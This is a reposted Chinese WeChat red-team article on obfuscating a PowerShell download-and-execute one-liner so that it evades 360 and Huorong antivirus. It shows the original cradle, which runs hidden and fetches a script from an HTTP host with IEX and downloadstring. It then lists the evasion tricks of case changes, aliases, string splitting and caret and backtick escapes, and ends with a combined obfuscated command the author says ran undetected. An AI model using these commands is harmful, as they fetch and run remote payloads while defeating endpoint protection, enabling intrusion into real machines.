 #  Bypass_AV - Powershell命令免杀

[ 渗透攻击红队 ](javascript:void\(0\);)

**渗透攻击红队** ![]()

微信号 RedTeamHacker

功能介绍 一个专注于渗透红队攻击的公众号

____

__

收录于话题

编者荐语：

学习一波

以下文章来源于不懂安全的校长 ，作者校长

![](http://wx.qlogo.cn/mmhead/Q3auHgzwzM6fWjaX953fWcIeWO2XYI40qbq9Mibxr5NJ0ODVk7uibZOw/0)
**不懂安全的校长** .

校长不懂安全，总是发些奇奇怪怪的东西！

## 0x01 前言

    
    
    powershell.exe -nop -w hidden -c "IEX ((new-object net.webclient).downloadstring('http://192.168.190.128:80/a'))"  
    

现在powershell指令一般都会被拦截，且不说.ps1现在能不能过免杀，这次我们先来讨论`powershell加载命令能否Bypass_AV`

对于这种一句话，我们需要去思考！

## 0x02 官方文档

我们先去官网查看相关的文档

 **文档:**

  * `https://docs.microsoft.com/zh-cn/powershell/module/microsoft.powershell.core/about/about_quoting_rules?view=powershell-7.1`
  * `https://docs.microsoft.com/zh-cn/powershell/module/microsoft.powershell.core/about/about_aliases?view=powershell-7.1`
  * `https://docs.microsoft.com/zh-cn/powershell/scripting/developer/cmdlet/required-development-guidelines?view=powershell-7.1`

## 0x03 准备 && 思路

环境:`Powershell 5`

测试免杀环境:`Windows 10`

杀软:`360 && 火绒`

测试时间:`2021年9月7日`

将进行免杀的时候， **我们需要思考一下思路都有什么？**

  *  **大小写绕过**
  *  **管道符**
  *  **修改函数名**
  *  **命令拆分**
  *  **反引号处理**

####  Tip:

`进行Powershell命令绕过，我们可以先了解WEB方面的远程命令执行以及它的各种Bypass姿势，有助于我们对Powershell加载命令进行免杀`

## 0x04 开始爬坑

#### 大小写

    
    
    powershell.exe -nop -w hidden -c "IEX ((new-object net.webclient).downloadstring('http://192.168.190.128:80/a'))"  
    

通过对整个语句进行`大小写`，看看能不能Bypass_AV

修改后:

## 0x05 组合拳

将上面的思路组合在一起来进行绕过

Powershell:

    
    
    cmd /c echo set-alias -name xz -value IEX;x^z (New-Object "Ne`T.WeB`ClienT").d^o^w^n^l^o^a^d^s^t^r^i^n^g('ht'+'tP://19’+'2.168.190.12'+'8/a') | p^o^w^e^r^s^h^e^l^l -  
    

![](https://gitee.com/fuli009/images/raw/master/public/20210908145431.png)直接起飞，`360
&& 火绒` 直接绕过执行命令

## 0x06 结尾

对于`Powershell加载命令`来说，多阅读官方文档肯定是没错的，多了解几个函数，几个功能！对于我们进行免杀是有莫大帮助的。方法肯定不止局限于我列举的这几种，推荐`公众号
@XG小刚`本文也以这个为参考。

预览时标签不可点

收录于话题 #

个 __

上一篇 下一篇

阅读

分享 收藏

赞 在看

____已同步到看一看[写下你的想法](javascript:;)

前往“发现”-“看一看”浏览“朋友在看”

![示意图](//res.wx.qq.com/mmbizwap/zh_CN/htmledition/images/pic/appmsg/pic_like_comment55871f.png)

前往看一看

**看一看入口已关闭**

在“设置”-“通用”-“发现页管理”打开“看一看”入口

[我知道了](javascript:;)

__

已发送

取消 __

####  发送到看一看

发送

Bypass_AV - Powershell命令免杀

最多200字，当前共字

__

发送中

写下你的留言

微信扫一扫  
关注该公众号

[知道了](javascript:;)

微信扫一扫  
使用小程序

****

[取消](javascript:void\(0\);) [允许](javascript:void\(0\);)

****

[取消](javascript:void\(0\);) [允许](javascript:void\(0\);)

： ， 。 视频 小程序 赞 ，轻点两下取消赞 在看 ，轻点两下取消在看

